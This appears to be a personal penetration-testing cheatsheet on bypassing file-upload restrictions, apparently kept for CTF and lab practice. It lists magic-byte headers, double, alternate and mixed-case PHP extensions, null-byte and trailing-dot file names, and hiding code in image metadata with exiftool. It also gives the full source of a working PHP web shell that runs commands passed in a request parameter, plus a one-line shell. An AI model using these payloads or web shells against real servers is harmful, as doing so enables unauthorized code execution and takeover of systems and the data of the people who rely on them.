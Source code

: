 ```yaml
---
categories: [Cheatsheet, Web]
tags: [cheatsheet/web, exploit/file-upload-bypass]
img_path: /Cheatsheet/Web/Upload bypass/images
---
```



# Magic Bytes; header
![](Pasted%20image%2020220415215405.png)
- if uploaded content is being scanned, sometimes the check can be fooled by putting this header item at the top of shellcode:
	```
	GIF89a;
	```
- Some Examples:
	- [[PwnLab#Port 80]]

# Append the allowed extension
- If only `.png` allowed, try appending `.png` at the end
- Try both ways
	```
	.php.png
	.png.php
	```
	- Some Examples:
		- [[fristileaks#Port 80]]

# Other PHP Extensions
```
php1
php2
php3
php4
php5
phptml
```
- Some Examples
	- [[RootMe#key 1]]
	- vulnversity writeup

# Case Sensitive Extensions
```
shell.pHP
shell.PhP
shell.pHP4
shell.PhPtml
shell.phP5
```


# Insert .jpg webshell
- Requires LFI to work
	```
	cat > bingchilling.jpg <<EOF
	<html>
	<body>
	<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
	<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
	<input type="SUBMIT" value="Execute">
	</form>
	<pre>
	<?php
		if(isset($_GET['cmd']))
		{
			system($_GET['cmd']);
		}
	?>
	</pre>
	</body>
	</html>
	EOF
	```
	```
	<?php system($_GET['cmd']); ?>  //shell.php
	exiftool "-comment<=shell.php" malicious.png
	strings malicious.png | grep system
	```
- Some Examples:
	- [[port 8001|hackerOne - Easy Port 8001]]

# Nullbyte
```
shell.jpeg%00.php
shell.png%00.php
```

# Trailing (Windows)
- Adding `.` to the end
	```
	shell.aspx.
	shell.php.
	shell.exe.
	```
	
# Exiftool:
- If web application is accepting uploaded files which are passed to exiftool, can, in turn lead to RCE.
- https://hackerone.com/reports/1154542

# RCE via filename
![](Pasted%20image%2020220415215647.png)

# Use burpsuite to find bypass
![[uploadBypass php extension.png]]
![[uploadBypass payloads.png]]
![[uploadBypass position.png|400]]
![[uploadBypass Results.png|400]]

# Sources:
https://www.onsecurity.io/blog/file-upload-checklist/

